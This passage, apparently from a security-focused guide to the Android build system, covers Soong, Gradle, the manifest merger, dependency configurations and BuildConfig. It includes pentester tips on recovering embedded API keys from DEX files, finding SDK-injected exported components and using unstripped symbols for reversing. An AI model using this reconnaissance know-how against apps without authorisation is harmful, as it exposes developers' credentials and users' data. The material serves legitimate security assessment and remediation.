| `apex_available:` | Which APEX containers may include the module | A module available to a third-party APEX has a wider blast radius |
| `sdk_version:` / `min_sdk_version:` | API surface and minimum runtime | `sdk_version: "core_platform"` or `""` means it uses hidden APIs |
| `platform_apis: true` | The app compiles against the full internal API surface | Cannot be published on Play; only meaningful for preinstalled apps |
| `sanitize: { … }` | Enables CFI, HWASan, integer overflow checks, ASan | The **absence** of `cfi: true` on a network-facing native parser is a hardening gap worth reporting |
| `lto: { thin: true }` | Link-time optimisation | Changes what a binary looks like when you reverse it |
| `visibility:` | Which packages may depend on this module | A module with `//visibility:public` is a broader interface than one restricted to a subtree |
| `init_rc:` | `.rc` files installed to `/system/etc/init` | This is how a `cc_binary` becomes a running daemon; read the `.rc` for the SELinux domain and user |
| `required:` | Other modules that must be installed alongside | Follow it to find helper binaries |
| `stem:` / `suffix:` | Rename the output file | The on-device filename may not match the module name — a common source of failed greps |

### 3.3 Kati, `Android.mk`, and why the legacy system still exists

`Android.mk` is GNU Make. A minimal one looks like this:

```makefile
# AOSP tree — legacy Android.mk
LOCAL_PATH := $(call my-dir)
include $(CLEAR_VARS)
LOCAL_MODULE := libexample
LOCAL_SRC_FILES := src/example.cpp
LOCAL_SHARED_LIBRARIES := liblog
LOCAL_MODULE_TAGS := optional
include $(BUILD_SHARED_LIBRARY)
```

The `include $(BUILD_SHARED_LIBRARY)` line pulls in `build/make/core/shared_library.mk`, which reads
the `LOCAL_*` variables that were just set and emits Make rules. `CLEAR_VARS` resets them. This is a
convention, enforced by nothing.

**Kati** (`build/kati/`) is a reimplementation of GNU Make that, instead of executing the build, emits
a Ninja file describing it. This lets legacy Make modules join the Soong-generated Ninja graph.

| Aspect | `Android.mk` (Kati) | `Android.bp` (Soong) |
|---|---|---|
| Language | Turing-complete Make | Declarative Blueprint |
| Can shell out during parsing | Yes (`$(shell …)`) | No |
| Can compute a module name | Yes | No |
| Parse cost | High; Kati caches aggressively | Low |
| Auditable by grep | No | Yes |
| Status in AOSP | Being eliminated; product/board config still uses Make | The default for all new modules |

Two categories of Make survive in a modern tree and will not go away soon: **product and board
configuration** (`device/<vendor>/<device>/BoardConfig.mk`, `build/make/target/product/*.mk`), and
**image assembly** rules. That is why `lunch` still exists and why `TARGET_*` variables still matter.

There is a conversion tool, `androidmk` (source in `build/soong/androidmk/`), that mechanically
translates simple `Android.mk` files into `Android.bp`. It fails on anything conditional, which is
precisely the code you most want to read.

> **Pentester's Note**
> On an OEM tree, `Android.mk` files are where the vendor-specific weirdness lives, because the vendor's
> integration work predates their Soong migration. Search for `$(shell`, `LOCAL_POST_INSTALL_CMD`,
> `LOCAL_ADDITIONAL_DEPENDENCIES` and `include $(BUILD_PREBUILT)` with a `LOCAL_SRC_FILES` pointing at a
> checked-in binary. Prebuilt binaries with no corresponding source are the single most common finding
> in a firmware supply-chain review.

### 3.4 How SELinux policy is built

SELinux policy is not configuration that the system reads at runtime from a text file. It is
**compiled**, by the same Ninja graph as everything else, into a binary blob that the kernel loads
during early boot. Understanding that it is a build artefact explains several things that otherwise
look mysterious.



Read the diagram in three bands. The **source band** is a set of `.te` files (type enforcement),
plus context files that map filesystem paths, system properties, Binder service names and app UIDs
onto SELinux labels. The `.te` files are written against a macro layer — `m4` macros such as
`init_daemon_domain`, `hal_client_domain`, `binder_call` — that expand into dozens of raw `allow`
rules each.

The **build band** does macro expansion with `m4`, compiles to **CIL** (Common Intermediate Language,
a textual policy representation) with `checkpolicy -C`, and then links the platform CIL with the
vendor CIL using `secilc`. Because Treble separates the platform and vendor policies into different
partitions that ship on different schedules, they are compiled separately and combined either at build
time (producing `precompiled_sepolicy`) or at boot time by `init` if the platform policy has changed
since the precompiled blob was made.

The **test band** is the part most people miss. `sepolicy_freeze_test` fails the build if a developer
modifies a *frozen* public type — this is how the platform's stable policy interface is enforced.
`treble_sepolicy_tests` checks that vendor code does not reach into platform-private types.

> **Under the Hood**
> The reason `init` sometimes takes noticeably longer to boot after you flash a new `system.img` onto an
> old `vendor.img` is exactly this: the precompiled policy's hash no longer matches the platform policy
> shipped in `system`, so `init` discards it and runs `secilc` on the device at boot. The hashes live in
> `/vendor/etc/selinux/precompiled_sepolicy.plat_sepolicy_and_mapping.sha256` and friends. If you are
> testing a mix-and-match ROM, this is the first thing to check when policy appears not to apply.

For the policy language itself and how to attack a permissive domain, see
[22-SELinux](../22-SELinux/README.md).

### 3.5 The Bazel migration

Google announced a migration of the AOSP build to **Bazel**, its general-purpose build system, with
Soong-to-Bazel conversion machinery under `build/bazel/` and a tool called `bp2build` that
mechanically generates Bazel `BUILD` files from `Android.bp`. The migration has proceeded unevenly and
in public; large parts of the tree still build with Soong, and Soong remains the system you must
understand to read AOSP today.

| Concept | Soong | Bazel |
|---|---|---|
| Build file | `Android.bp` | `BUILD.bazel` |
| Unit | Module | Target |
| Language | Blueprint (declarative data) | Starlark (a restricted, deterministic Python dialect) |
| Rule definitions | Written in Go, compiled into `soong_build` | Written in Starlark, loaded from the workspace |
| Sandboxing | Partial | Strong, per-action |
| Remote execution | Via RBE integration | Native |

The security-relevant difference is that Starlark is *executable but deterministic and sandboxed*: no
file I/O, no network, no clocks. It sits between Blueprint's "pure data" and Gradle's "arbitrary JVM
code". If you are auditing a Bazel-based Android tree, the equivalent of "read every `genrule`" is
"read every `genrule`, `repository_rule`, and anything invoking `ctx.actions.run_shell`".

### 3.6 Reading the platform build's output tree

| Path under `out/` | Contents |
|---|---|
| `out/soong/build.ninja` | The generated build graph. Enormous, but greppable. |
| `out/soong/module_bp_java_deps.json`, `module_bp_cc_deps.json` | Machine-readable module dependency maps |
| `out/target/product/<device>/system/` | Everything that will be in `system.img` |
| `out/target/product/<device>/vendor/` | Vendor partition staging |
| `out/target/product/<device>/obj/` | Intermediates, including unstripped binaries |
| `out/target/product/<device>/symbols/` | **Unstripped copies of every native binary** |
| `out/target/product/<device>/installed-files.txt` | A complete inventory of the image |
| `out/target/product/<device>/module-info.json` | Module name → installed paths, classes, source dirs |
| `out/dist/` | Release artefacts from `m dist` |

> **Pentester's Note**
> `out/target/product/<device>/symbols/` is a gift. It contains the **unstripped** version of every
> native binary and library on the device, with full symbol tables and often DWARF debug information.
> If you are given a build tree along with a device, load the symbol version into Ghidra or IDA and
> apply the symbols to the stripped on-device binary. Weeks of reversing collapse into an afternoon.
> `module-info.json` is the other one: it maps a module name to its installed path, its source
> directory and its class, so you can answer "where does `/system/bin/foo` come from?" instantly.

---

### (B) THE APP BUILD

### 3.7 Gradle: the three phases

Gradle is a general-purpose build tool. It knows nothing about Android until the Android Gradle Plugin
is applied. Its execution is divided into three phases, and knowing which phase you are in explains
almost every confusing Gradle behaviour — and every Gradle-based supply-chain attack.



**Initialisation** decides *which projects exist*. `settings.gradle` is evaluated first, and it is the
only place where `pluginManagement` and (in modern Gradle) `dependencyResolutionManagement` can be
declared. This is the highest-value file in a Gradle project for both attack and defence, and it is
the one reviewers skip.

**Configuration** evaluates every `build.gradle`. This is where your `android { … }` block runs, where
plugins are applied, and where tasks are *registered*. Nothing has been compiled yet. Critically,
**all of this is arbitrary code executing with the invoking user's privileges**, and it runs even for
`./gradlew tasks`, even for `./gradlew --dry-run`, and even when Android Studio merely opens the
project to populate the IDE.

**Execution** runs the subset of tasks needed for the requested goal, checking each task's declared
inputs and outputs against a hash cache to skip work.

> **Warning**
> `./gradlew --dry-run` does **not** make a project safe to open. `--dry-run` skips the *execution*
> phase only. The configuration phase — the one that runs arbitrary code — still executes in full. So
> does `./gradlew tasks`, `./gradlew help`, and importing the project into an IDE. There is no
> read-only mode for a Gradle build. If you must analyse an untrusted project, read the files with a
> text editor, in a disposable container, with no network and no credentials mounted.

#### The files, and what each is for

| File | Phase | Contains | What a reviewer looks for |
|---|---|---|---|
| `settings.gradle(.kts)` | Initialisation | `pluginManagement`, `dependencyResolutionManagement`, `include(":app")`, `rootProject.name` | Which repositories are trusted, in what order; any repository that is not Google/Maven Central |
| `build.gradle(.kts)` (root) | Configuration | `buildscript` classpath, plugin declarations shared by all modules | Plugins applied to every module; `allprojects { repositories { … } }` |
| `build.gradle(.kts)` (module) | Configuration | The `android { … }` block, dependencies | Everything in §3.8 onward |
| `gradle.properties` | Initialisation | JVM args, feature flags, and — far too often — credentials | `*_PASSWORD`, `*_TOKEN`, `*_KEY` |
| `local.properties` | Initialisation | SDK/NDK paths; machine-local, should be git-ignored | Credentials that were put here because "it's not committed" — then committed |
| `gradle/libs.versions.toml` | Initialisation | The version catalog | The complete dependency inventory in one file — start here |
| `gradle/wrapper/gradle-wrapper.properties` | Initialisation | Which Gradle distribution to download | `distributionUrl` pointing anywhere other than `services.gradle.org`; a missing `distributionSha256Sum` |
| `gradle/wrapper/gradle-wrapper.jar` | Initialisation | **A checked-in binary that executes** | See §5.4 |
| `buildSrc/` or `build-logic/` | Configuration | A whole Gradle project compiled and executed before yours | Read every line. This is code that runs on every build. |
| `proguard-rules.pro` | Execution | R8 keep rules | Over-broad `-keep class **` that defeats obfuscation |
| `gradle/verification-metadata.xml` | Initialisation | Dependency checksums/signatures | Its **absence** is the finding |

#### `gradle.properties` flags that change the security posture

| Property | Effect | Reviewer note |
|---|---|---|
| `android.enableR8.fullMode=true` | R8 aggressive mode (default from AGP 8.0) | More optimisation and better obfuscation; also more breakage without correct keep rules |
| `android.useAndroidX=true` | Use AndroidX rather than the legacy support library | `false` means an unmaintained support library is in the app |
| `android.enableJetifier=true` | Rewrite legacy support-library references inside dependencies at build time | Indicates old, possibly unmaintained AARs |
| `org.gradle.caching=true` | Enable the build cache | A poisoned remote cache is a supply-chain vector; see §5.4 |
| `org.gradle.configuration-cache=true` | Serialise the configuration phase result | Restricts what build scripts may do at execution time |
| `org.gradle.jvmargs=-Xmx…` | Daemon heap | Occasionally hides `-D` system properties carrying secrets |
| `android.nonTransitiveRClass=true` | Each module gets only its own `R` class | Changes what resource identifiers appear in the DEX |
| `android.injected.signing.*` | Injected signing config (used by IDE and CI) | If present in a committed file, signing material is nearby |

### 3.8 The Android Gradle Plugin DSL

The `android { … }` block is the plugin's extension object. Everything security-relevant in an app
build is configured here.

```kotlin
// app/build.gradle.kts — annotated, security-relevant configuration
plugins {
    id("com.android.application")
    id("org.jetbrains.kotlin.android")
}

android {
    namespace = "com.example.app"          // package for the generated R and BuildConfig classes
    compileSdk = 35                        // API level the code compiles against

    defaultConfig {
        applicationId = "com.example.app"  // the identity Android and Play use — NOT the same as namespace
        minSdk = 24                        // oldest API level supported
        targetSdk = 35                     // behaviour-change opt-in level: THE security-relevant one
        versionCode = 4210
        versionName = "4.2.1"

        // These become fields on the generated BuildConfig class. See §3.12.
        buildConfigField("String", "API_BASE", "\"https://api.example.com\"")

        // These are substituted into the manifest by the merger. See §3.10.
        manifestPlaceholders["hostName"] = "example.com"

        ndk { abiFilters += listOf("armeabi-v7a", "arm64-v8a") }
    }

    signingConfigs {
        create("release") {
            storeFile = file(System.getenv("KEYSTORE_PATH") ?: "/nonexistent")
            storePassword = System.getenv("KEYSTORE_PASSWORD")
            keyAlias = System.getenv("KEY_ALIAS")
            keyPassword = System.getenv("KEY_PASSWORD")
            enableV1Signing = false        // JAR signing: off unless you must support API < 24
            enableV2Signing = true
            enableV3Signing = true
            enableV4Signing = true
        }
    }

    buildTypes {
        getByName("debug") {
            isMinifyEnabled = false
            isDebuggable = true            // sets android:debuggable="true"
            applicationIdSuffix = ".debug" // lets debug and release coexist on one device
            buildConfigField("boolean", "VERBOSE_LOGGING", "true")
        }
        getByName("release") {
            isMinifyEnabled = true         // run R8: shrink + obfuscate
            isShrinkResources = true       // requires isMinifyEnabled = true
            isDebuggable = false
            signingConfig = signingConfigs.getByName("release")
            proguardFiles(
                getDefaultProguardFile("proguard-android-optimize.txt"),
                "proguard-rules.pro"
            )
            buildConfigField("boolean", "VERBOSE_LOGGING", "false")
        }
    }

    flavorDimensions += "environment"
    productFlavors {
        create("staging") {
            dimension = "environment"
            applicationIdSuffix = ".staging"
            buildConfigField("String", "API_BASE", "\"https://api-staging.example.com\"")
        }
        create("production") {
            dimension = "environment"
        }
    }

    buildFeatures {
        buildConfig = true                 // must be explicit from AGP 8.0
        viewBinding = true
    }

    packaging {
        jniLibs { useLegacyPackaging = false }   // .so files stored uncompressed and page-aligned
    }
}
```

#### `namespace` versus `applicationId`

These two are confused constantly, including by developers, and the confusion produces real bugs.

| | `namespace` | `applicationId` |
|---|---|---|
| What it names | The Java/Kotlin package of the generated `R` and `BuildConfig` classes | The application's identity on the device and in Play |
| Where it appears | Compile-time only | `package` attribute of the final manifest; used by `PackageManager` |
| Can vary per variant | No | Yes, via `applicationIdSuffix` and flavours |
| Security relevance | Determines where `BuildConfig` lands in the DEX | Determines the sandbox UID mapping, the data directory `/data/data/<applicationId>`, the permission namespace, and what an attacker must impersonate |

> **Warning**
> Custom permissions are declared with a name string, not with `applicationId`. If an app declares
> `com.example.app.permission.ADMIN` and an attacker installs first with the same permission name and a
> `normal` protection level, the attacker's definition wins on older Android versions. Android 5.0
> restricted this by refusing to install an app whose custom permission is already defined by another
> app with a different signature — but split installs, uninstall-reinstall races and multi-user setups
> have produced variations on this bug repeatedly. See
> [23-Permissions](../23-Permissions/README.md).

### 3.9 Build variants: types, flavours, and source sets

> **Definition**
> A **build type** describes *how* the app is built (debug versus release: shrinking, debuggability,
> signing). A **product flavour** describes *what* app is built (free versus paid, staging versus
> production, one white-label brand versus another). A **build variant** is one combination of one
> build type with one flavour from each flavour dimension. A project with two build types and three
> flavours in one dimension has six variants.



Each variant has its own set of **source sets**, merged in a defined priority order. For the variant
`productionPaidRelease`, AGP merges, from lowest to highest priority:

1. `src/main/` — always
2. `src/production/`, `src/paid/` — one per flavour
3. `src/productionPaid/` — the flavour combination
4. `src/release/` — the build type
5. `src/productionPaidRelease/` — the full variant

Higher priority wins for a conflicting resource or manifest attribute. **Java and Kotlin source sets do
not merge — they concatenate.** Two source sets in the same variant may not define the same class, but
a class defined in `src/debug/java` does not exist in the release variant.

| Artefact type | Merge behaviour across source sets |
|---|---|
| Java/Kotlin source | Concatenated; duplicate fully-qualified class names are an error |
| Resources (`res/`) | Overlaid; higher-priority source set replaces the same-named resource |
| Assets (`assets/`) | Overlaid by filename |
| Manifests | Merged by the manifest merger, with build type highest |
| JNI libs (`jniLibs/`) | Overlaid by relative path |
| Dependencies | Additive: `debugImplementation` adds to `implementation` |

> **Pentester's Note**
> `src/debug/` is where you find the good stuff, and it is also where you find the *reason* a control
> you expected is missing. Common patterns: a `src/debug/java/.../NetworkModule.kt` that installs a
> trust-all `X509TrustManager`; a `src/debug/AndroidManifest.xml` that adds
> `android:usesCleartextTraffic="true"` or an exported debug activity; a `src/debug/res/xml/
> network_security_config.xml` that trusts user CAs. All of that is *correct* engineering — as long as
> it stays in `src/debug/`. Your job is to verify that it did. Decompile the release APK and search for
> the debug-only class names. If they are present, the debug source set leaked into release, which
> usually means someone wrote `implementation` where they meant `debugImplementation`, or built the
> wrong variant.

### 3.10 The manifest merger, in depth

This is the most under-taught part of the Android build and one of the most productive places to look
for real findings.

#### The problem it solves

Your application declares components in `app/src/main/AndroidManifest.xml`. But a library you depend
on may also need components — an analytics SDK needs a `ContentProvider` to initialise itself, a
crash reporter needs a `BroadcastReceiver`, a payment SDK needs an `Activity` to receive a redirect.
Libraries ship as AARs, and an AAR contains its own `AndroidManifest.xml`. Something must combine all
of them into the single manifest that Android will read.

That something is the **manifest merger**, a component of AGP.

#### The priority order



Higher-priority manifests win attribute conflicts. Libraries are lowest priority — but *lowest priority
is not no priority*. A library element that has no counterpart in your manifest is added verbatim.
That is the entire attack surface in one sentence.

#### What a library manifest can inject

| Element a library can add | Consequence |
|---|---|
| `<activity>` with `exported="true"` and an `<intent-filter>` | A new externally-launchable screen inside your app's UID |
| `<receiver>` with an `<intent-filter>` | Code that runs in your process on a system or third-party broadcast |
| `<service>` with `exported="true"` | An IPC endpoint any app can bind to, running as you |
| `<provider>` | Data reachable by `content://` URI; `androidx.startup.InitializationProvider` is the canonical benign example |
| `<uses-permission>` | **Your app now requests a permission you never asked for**, which the user sees at install or runtime |
| `<uses-sdk android:minSdkVersion>` | Can raise your effective `minSdk`, or cause a build failure |
| `<application android:allowBackup>` etc. | Application-level attributes, if you have not set them |
| `<queries>` | Package visibility on Android 11+ |
| `<meta-data>` | Configuration read by other SDKs |
| `android:name` on `<application>` | A custom `Application` class — libraries rarely do this, but it is possible and would be a serious red flag |

> **Pentester's Note**
> Take a release APK, decode the manifest, and list every exported component. Then take the
> application's source repository and list every component declared in `src/main/AndroidManifest.xml`.
> **The difference is what the libraries added.** In real applications that difference is routinely ten
> to forty components. Every one of them is code you can reach with `am start`, `am broadcast` or
> `content query`, which the application's own developers have never read, cannot patch, and often do
> not know exists. This is where a large fraction of genuine, exploitable Android findings come from:
> an SDK's exported receiver that takes a URL from an extra, or an exported activity that proxies an
> arbitrary intent.

#### `tools:` merge rules

The `tools` namespace (`xmlns:tools="http://schemas.android.com/tools"`) controls the merger. These
attributes are stripped from the final manifest — they are instructions to the build, not to Android.

| Marker | Applies to | Effect |
|---|---|---|
| `tools:node="merge"` | Element | Default: merge attributes and children |
| `tools:node="merge-only-attributes"` | Element | Merge attributes; ignore the lower-priority element's children |
| `tools:node="replace"` | Element | Replace the lower-priority element entirely |
| `tools:node="remove"` | Element | Remove the matching lower-priority element |
| `tools:node="removeAll"` | Element | Remove **all** lower-priority elements of this type |
| `tools:node="strict"` | Element | Fail the build if the elements differ at all |
| `tools:replace="a,b"` | Attribute list | Replace only the named attributes |
| `tools:remove="a,b"` | Attribute list | Remove the named attributes from the merged result |
| `tools:selector="com.lib.pkg"` | Element | Apply the marker only to the library with that package |
| `tools:overrideLibrary="com.lib.pkg"` | `<uses-sdk>` | Permit a library with a higher `minSdk` than yours |
| `tools:targetApi` | Element | Lint suppression only; no merge effect |

The remediation for an unwanted injected component is exactly this mechanism:

```xml
<!-- app/src/main/AndroidManifest.xml — remove a receiver an SDK injected -->
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
          xmlns:tools="http://schemas.android.com/tools">
    <application>
        <!-- The SDK declares this as exported with an intent-filter; we do not use it. -->
        <receiver
            android:name="com.thirdparty.sdk.CommandReceiver"
            tools:node="remove" />

        <!-- We keep this provider but refuse to let it be exported. -->
        <provider
            android:name="com.thirdparty.sdk.SdkInitProvider"
            android:exported="false"
            tools:replace="android:exported" />
    </application>

    <!-- The SDK requests location; the product does not use location. -->
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"
                     tools:node="remove" />
</manifest>
```

> **Warning**
> `tools:node="remove"` deletes the component from the manifest, but the SDK's **code is still in the
> APK**. If the SDK's own initialisation calls into the removed component, you will get a runtime
> crash instead of a security improvement. Removing an injected component is a legitimate fix, but it
> must be tested, and the correct long-term answer is usually to remove or replace the SDK.

#### Inspecting the merged result

There are four ways, in increasing order of trustworthiness.

```bash
# host — 1. The IDE: open src/main/AndroidManifest.xml, click the "Merged Manifest" tab.
#            Good for exploration, useless for evidence.

# host — 2. The merger's own report. This is the authoritative build-time record.
cat app/build/outputs/logs/manifest-merger-release-report.txt

# host — 3. The merged manifest AGP produced (path varies by AGP version).
find app/build/intermediates -name AndroidManifest.xml -path "*erged*"

# host — 4. The manifest actually inside the shipped APK. Trust only this one.
apktool d -f app-release.apk -o out/ && cat out/AndroidManifest.xml
aapt2 dump xmltree app-release.apk --file AndroidManifest.xml
```

The report file is worth explaining, because most people have never opened it. It contains, for every
element in the final manifest, a provenance chain: which file it came from, at which line, and which
merge decision applied. A typical entry looks like this in shape:

```
receiver#com.thirdparty.sdk.CommandReceiver
ADDED from [com.thirdparty:sdk:3.4.1] .../AndroidManifest.xml:41:9-47:20
	android:exported
		ADDED from [com.thirdparty:sdk:3.4.1] .../AndroidManifest.xml:43:13-36
```

That is a complete answer to "where did this component come from, and who is responsible for it",
including the exact Maven coordinate. In a report you can name the SDK and the version.

> **Mental Model**
> Treat every third-party SDK as a **co-author of your manifest with commit access and no code review**.
> That is literally what a dependency is in the Android build model. The manifest merger report is your
> `git blame` for the manifest, and it is the only place the truth is written down.

### 3.11 Dependency configurations

> **Definition**
> A **configuration** in Gradle is a named bucket of dependencies with defined semantics about where
> those dependencies appear: on the compile classpath, on the runtime classpath, in the published API,
> or in the packaged output.

| Configuration | On your compile classpath | On consumers' compile classpath | Packaged into the APK | Use it for |
|---|---|---|---|---|
| `implementation` | Yes | **No** | Yes | The default. Everything, unless you have a reason. |
| `api` | Yes | **Yes** | Yes | Only when a library's own public API exposes types from the dependency |
| `compileOnly` | Yes | No | **No** | Annotations, provided APIs, `javax.*` stubs |
| `compileOnlyApi` | Yes | Yes | No | Annotations that consumers also need to compile against |
| `runtimeOnly` | **No** | No | Yes | A driver or logging backend chosen at runtime |
| `annotationProcessor` / `kapt` / `ksp` | Processor classpath only | No | No | Code generators |
| `testImplementation` | Unit test source set only | No | No (unit tests do not ship) | JUnit, MockK |
| `androidTestImplementation` | Instrumentation test source set | No | Into the **test** APK | Espresso |
| `debugImplementation` | Debug variant only | No | Into the debug APK only | LeakCanary, Chucker, Flipper |
| `releaseImplementation` | Release variant only | No | Into the release APK only | Rare; usually a smell |
| `<flavor>Implementation` | That flavour only | No | That flavour's APK | Flavour-specific SDKs |

The distinction between `api` and `implementation` is usually taught as a build-speed matter: with
`implementation`, changing a transitive dependency does not force recompilation of downstream modules.
That is true, but the security framing is more useful.

> **Mental Model**
> `api` is a **transitive trust declaration**. It says: "everyone who uses my module also gets this
> dependency's types on their compile classpath, whether they wanted them or not." A dependency graph
> full of `api` is a graph where a single compromised leaf artefact is visible to, and callable from,
> every module in the project. `implementation` narrows that. It does not remove the artefact from the
> APK — the code is still there and still runs — but it does bound which of *your* code can be written
> against it, which bounds accidental coupling and makes removal possible later.

> **Warning**
> `compileOnly` is the one that surprises people. A `compileOnly` dependency is **not in the APK**. If
> any code path actually reaches it at runtime, the app throws `NoClassDefFoundError`. Conversely, and
> more importantly for you: seeing a dependency in `build.gradle` does **not** prove it is in the APK.
> Always confirm against the shipped artefact. The reverse is also true — a transitive dependency you
> never named is very much in the APK. `./gradlew :app:dependencies` is how you get the real list.

```bash
# host — the true, resolved dependency graph for one variant
./gradlew :app:dependencies --configuration releaseRuntimeClasspath

# host — why is this artefact here, and who pulled it in?
./gradlew :app:dependencyInsight \
  --configuration releaseRuntimeClasspath \
  --dependency okhttp
```

`dependencyInsight` is the command that answers "we never depend on this, why is it in our app?" It
prints every path through the graph that reaches the artefact, and the conflict-resolution decision
that chose the version. Gradle's default resolution strategy is **highest version wins**, which means a
transitive dependency can silently upgrade — or, with a `strictly` constraint elsewhere, downgrade — a
library you thought you controlled.

### 3.12 `BuildConfig`, and why secrets end up in it

At build time AGP generates a Java class named `BuildConfig` in the `namespace` package:

```java
// app/build/generated/source/buildConfig/release/com/example/app/BuildConfig.java — generated
package com.example.app;

public final class BuildConfig {
  public static final boolean DEBUG = false;
  public static final String APPLICATION_ID = "com.example.app";
  public static final String BUILD_TYPE = "release";
  public static final String FLAVOR = "production";
  public static final int VERSION_CODE = 4210;
  public static final String VERSION_NAME = "4.2.1";
  // From buildConfigField(...) in build.gradle:
  public static final String API_BASE = "https://api.example.com";
  public static final String API_KEY = "sk_live_9f3c2a...";   // <-- the problem
}
```

`buildConfigField(type, name, value)` inserts a constant. Developers reach for it because it is the
path of least resistance for "configuration that differs per environment", and configuration that
differs per environment is very often a credential.

The result is a `public static final String` in the DEX.

> **Warning**
> A `String` constant in `BuildConfig` is not merely "in the APK". Because it is `static final` and
> initialised with a compile-time constant, the Java compiler **inlines** it at every use site. The
> value therefore appears in the string pool of the DEX and, additionally, at every call site. R8
> cannot remove it (it is used), obfuscation does not touch string *contents*, and `strings
> classes.dex | grep sk_live` finds it in one second. There is no configuration of ProGuard or R8 that
> makes a shipped constant secret. See [41-ProGuard](../41-ProGuard/README.md) and
> [42-R8](../42-R8/README.md).

Common variants of the mistake, all of which are equivalent:

| Pattern | Where it lands |
|---|---|
| `buildConfigField("String", "API_KEY", "\"…\"")` | DEX string pool |
| `resValue("string", "api_key", "…")` | `resources.arsc`, readable with `aapt2 dump resources` |
| `manifestPlaceholders["apiKey"] = "…"` | Merged manifest, usually as `<meta-data>` |
| A `local.properties` value read at build time and injected | Same as above; the file being git-ignored changes nothing about the APK |
| `google-services.json` processed by the Google Services plugin | `resources.arsc` as string resources |
| An `assets/config.json` | Plain file in the APK |
| A key XORed or Base64-ed in code before use | DEX, plus the decoding routine right next to it |

> **Pentester's Note**
> The correct question to ask a developer is never "is the key obfuscated?" — it is "**what can this
> key do, and who can revoke it?**". Some keys genuinely must ship: a Firebase Web API key, a Maps API
> key, an OAuth *public* client identifier. Those are identifiers, not secrets, and their security
> comes from server-side restrictions (SHA-1 + package name allowlists, Firebase security rules, redirect
> URI validation). Reporting a Maps key as "hardcoded secret" with a critical rating is the fastest way
> to lose credibility. Reporting a `sk_live_` Stripe key, an AWS secret access key, or a static bearer
> token that the server accepts is a genuine critical. Validate what the key does before you rate it.

The correct pattern is that the app holds no long-lived secret at all: it authenticates the *user*,
receives a short-lived token, and any operation requiring a service credential is proxied through the
developer's own backend.

### 3.13 Debug builds and how they leak

A debug build differs from a release build in ways that are individually small and collectively fatal
if shipped.

| Difference | Set by | Observable consequence | How you detect it in a shipped APK |
|---|---|---|---|
| `android:debuggable="true"` | `isDebuggable = true` | `run-as` works; JDWP debugger can attach; `adb shell run-as <pkg>` reads the private data directory | `aapt2 dump badging` shows `application-debuggable`; `dumpsys package` flags contain `DEBUGGABLE` |
| No shrinking or obfuscation | `isMinifyEnabled = false` | Full class, method and field names; dead code retained | JADX output has meaningful names |
| `BuildConfig.DEBUG == true` | Implicit for the debug build type | Verbose logging branches execute; certificate checks may be skipped | `strings`/JADX: look for `BuildConfig.DEBUG` guarded blocks that are still live |
| `testOnly="true"` | Injected when the IDE installs directly | The APK can only be installed with `adb install -t`; Play rejects it | `aapt2 dump xmltree ... | grep testOnly` |
